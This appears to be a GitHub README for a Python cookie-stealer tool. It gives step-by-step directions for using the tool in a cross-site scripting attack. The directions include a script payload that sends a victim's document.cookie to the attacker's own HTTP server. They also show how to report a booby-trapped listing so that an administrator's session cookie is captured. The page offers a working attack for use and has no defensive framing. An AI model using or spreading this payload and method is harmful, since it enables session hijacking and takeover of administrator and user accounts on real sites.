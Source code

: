 # XSS-cookie-stealer.py
I recreated it with Python 3 because it is a very old repository. The original author of this work is @R0B1NL1N at github.com.

Welcome to the XSS-cookie-stealer.py wiki!

This is my circumstance, and I have the option of reporting to the admins, but there are a lot of other uses as well.

# How to use
1- Change IP address in the script.

![image](https://user-images.githubusercontent.com/102862377/203699668-456c24c0-4f15-4f12-a6c5-166f6089fa44.png)


2- Run the script.

`python3 XSS-cookie-stealer.py`

![image](https://user-images.githubusercontent.com/102862377/203699097-d805bf19-0ced-43f7-a9e6-f2dda7cfa813.png)

3- Create a new listing and enter the exploit script.

`<script>var i=new Image;i.src="http://(Your IP):8888/?"+document.cookie;</scirpt>`

![image](https://user-images.githubusercontent.com/102862377/203699802-2ec5643e-2717-4cd2-ab53-40b8dbf2c8af.png)

4- As soon as we submit, we should see our cookie appear on the http server running on our attack machine:

![image](https://user-images.githubusercontent.com/102862377/203699868-ab19e552-34e9-4aeb-9754-f34ad2b04ccb.png)

5- Let’s now click on the link and report listing to the admins:

![image](https://user-images.githubusercontent.com/102862377/203699911-513801f2-ebae-43fa-8127-80d6a6c56314.png)

6- Click ‘Report’ button and we should see the admin cookie appear on our http server:

![image](https://user-images.githubusercontent.com/102862377/203699989-a56ea191-92a7-4149-9781-6b286573e2a0.png)



